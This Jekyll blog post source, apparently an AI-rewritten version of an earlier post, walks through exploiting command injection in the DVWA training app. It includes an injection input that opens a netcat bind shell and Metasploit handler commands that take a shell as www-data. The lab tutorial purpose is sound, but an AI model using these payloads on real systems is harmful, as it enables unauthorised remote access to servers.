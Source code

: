 ```yaml
---
layout: post
section-type: post
title: "Exploiting Command Injection Vulnerability in DVWA with Metasploit"
category: tech
tags: ["security", "redteam", "dvwa"]
---
```


The current post describes the process of exploiting command injection vulnerability in [DVWA]({% post_url 2017-04-02-dvwa-kali %}), and gaining access to the server using [Metasploit](https://www.metasploit.com/).
While the post provides a step-by-step guide to the process, it could benefit from some improvements in terms of clarity and accuracy.
Here is an improved version of the post:

Command Injection is a type of vulnerability that allows attackers to execute arbitrary commands on the host operating system by manipulating a vulnerable software.
This type of attack is possible when the application fails to properly validate user input and uses it to execute shell commands on the host operating system.
In this post, we will explore the Command Injection section of DVWA and demonstrate how to use Metasploit to gain access to the server.

To begin, we need to navigate to the _Command Injection_ section of DVWA, which is designed to ping an IP address.
Let's test the section by entering the IP address `127.0.0.1` and observing the result.

![ci-1](/img/posts/ci/ci-1.png)

As we can see, the Command Injection section simply appends our input to the underlying bash command.
This means that we can use the input field to execute arbitrary commands on the host operating system.

Let's try appending a list bash command after our input IP address:

```bash
127.0.0.1; ls
```

![ci-2](/img/posts/ci/ci-2.png)

As expected, the Command Injection section executes the appended command and displays the result. This confirms that we can use this vulnerability to execute arbitrary commands on the host operating system.

ow, let's create a backdoor on the server by listening on port `4444` using netcat and redirecting all the incoming bytes to a bash shell:

```bash
127.0.0.1; mkfifo /tmp/pipe ; sh /tmp/pipe | nc -l -p 4444 > /tmp/pipe
```

![ci-3](/img/posts/ci/ci-3.png)

As you can see, the page is loading forever, which means that our backdoor is open and waiting for us.

Next, let's use Metasploit to gain access to the server.
We will start msfconsole and use the `exploit/multi/handler` module to open a shell on the server:

```bash
⁠⁠⁠msfconsole
use exploit/multi/handler
set payload linux/x64/shell/bind_tcp
set RHOST 127.0.0.1
exploit
```

![ci-4](/img/posts/ci/ci-4.png)

Note that we didn't set the LPORT of bind_tcp, since the default one is `4444`.

As you can see, we are logged in as the `www-data` user, which has limited privileges. We can't read the `/etc/shadow` file, which contains the user passwords of the operating system. However, we have all the privileges that the `www-data` user has and we can potentially modify DVWA or escalate to root by exploiting a local privilege escalation vulnerability.

In conclusion, Command Injection is a serious vulnerability that can allow attackers to execute arbitrary commands on the host operating system. It is important for developers to properly validate user input and avoid using it to execute shell commands. By following the steps outlined in this post, we have demonstrated how to exploit a Command Injection vulnerability in DVWA and gain access to the server using Metasploit.
